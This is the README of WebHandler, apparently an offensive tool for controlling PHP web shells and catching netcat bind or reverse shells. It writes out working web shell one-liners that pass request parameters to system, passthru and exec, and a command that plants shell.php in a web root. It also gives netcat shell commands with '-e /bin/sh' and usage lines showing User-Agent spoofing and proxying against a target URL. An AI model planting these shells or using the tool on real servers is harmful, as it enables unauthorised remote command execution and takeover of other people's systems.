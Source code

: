# WebHandler #
---
A handler for PHP system functions & also an alternative 'netcat' handler
![My image](http://s12.postimage.org/t5ujo2om5/Untitled_1.png)

### Info ###
---
WebHandler tries to simulate a 'Linux bash prompt' to handle and process:

    - PHP program execution functions _(e.g. `system`, `passthru`, `exec`, etc)_
    - Bind shell connections _(e.g. `nc <ip> <port>`)_
    - Reserve shell connections _(e.g. `nc -lvvp 1234`)_

Another feature is to spoof the "User-Agent" field in the HTTP header. (`--random-angent`).

It also supports HTTP proxies (`--proxy http://<ip>:<port>`)

* WebHandler works for **POST** and **GET** requests:
    - `<?php system($_GET['cmd']); ?>`
    - `<?php passthru($_REQUEST['cmd']); ?>`
    - `<?php echo exec($_POST['cmd']); ?>`

* WebHandler is a replacement for netcat connections.

    A example bind connection (_e.g. `nc -lvvp 1234 -e /bin/sh`_)

    Normally the user would do:
    - `netcat -l -p 1234`
    - `nc -lvvp 1234`
    
    A example reverse connection (_e.g. `nc 127.0.0.1 4321 -e /bin/sh`_)

    Normally the user would do:
    - `netcat -l -p 4321`
    - `nc -lvvp 4321`

### Usage ###
---
* --Example file:
    - `echo '<?php system($_GET['cmd']); ?>' > /var/www/shell.php`

* --url is a required argument when sending either GET or POST requests _(e.g. a bind 'web based PHP' connection)_:
    - `python webhandler.py --url http://www.mywebsite.com/shell.php?cmd=`
    - `python webhandler.py --url http://www.mywebsite.com/shell.php --method POST --parameter cmd`
    - `python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --random-agent --turbo`
    - `python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --proxy http://127.0.0.1:8080`

* --listen is a required argument when working waiting connection _(e.g. a reverse 'raw' connection)_:
    - `python webhandler.py --listen 1234`

### Dependencies
---
If your [Python][]'s version < 2.7.x, then [argparse][] **is required**
To install it run: `sudo (apt-get|yum) install python-setuptools && sudo easy_install argparse` **OR** `sudo pip --install argparse`.

[readline][] **is optional**.
This module it used to provide elaborate line editing and history features

[git][] **is optional**.
This allows for the project to be kept up-to-date

### Links
---
[Wiki][]

[Known Bugs][]

[Python]: http://www.python.org/download/
[argparse]: http://docs.python.org/library/argparse.html
[readline]: http://cnswww.cns.cwru.edu/php/chet/readline/rltop.html
[git]: http://git-scm.com
[Wiki]: https://github.com/lnxg33k/webhandler/wiki
[Known Bugs]: https://github.com/lnxg33k/webhandler/issues
